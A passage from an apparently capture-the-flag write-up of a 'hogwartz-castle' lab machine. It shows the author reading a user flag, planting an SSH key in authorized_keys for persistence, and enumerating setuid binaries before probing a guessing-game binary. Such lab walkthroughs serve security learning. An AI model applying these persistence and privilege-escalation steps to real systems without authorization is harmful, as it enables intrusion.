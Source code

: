 This gave me a shell and the second flag. 

```bash
$ whoami
hermonine
$ cd /home/hermonine

$ ls
user2.txt

$ cat user2.txt
REDACTED
```

That shell was not working very well. So I used it to copy my public SSH key in hermonine's home folder and reconnect with SSH.

```bash
$ echo PUBLIC_KEY > .ssh/authorized_keys
$ chmod 600 .ssh/authorized_keys
$ chmod 700 .ssh
```

## Getting root

Next I looked for ways to get root. I could not run sudo with hermonine since it required a password and I did not know it. 

I looked for files with the suid bit set. 

```bash
hermonine@hogwartz-castle:~$ find / -perm /u=s 2>/dev/null 
/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
...
```

The first file it found looked interesting. 

```bash
hermonine@hogwartz-castle:~$ file /srv/time-turner/swagger
/srv/time-turner/swagger: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=36c89f8b196c651950f369719ff6e50f1b427ff8, not stripped

hermonine@hogwartz-castle:~$ /srv/time-turner/swagger 
Guess my number: 1
Nope, that is not what I was thinking
I was thinking of 1225937666

hermonine@hogwartz-castle:~$ /srv/time-turner/swagger 
Guess my number: 1
Nope, that is not what I was thinking
I was thinking of 2038734502
```
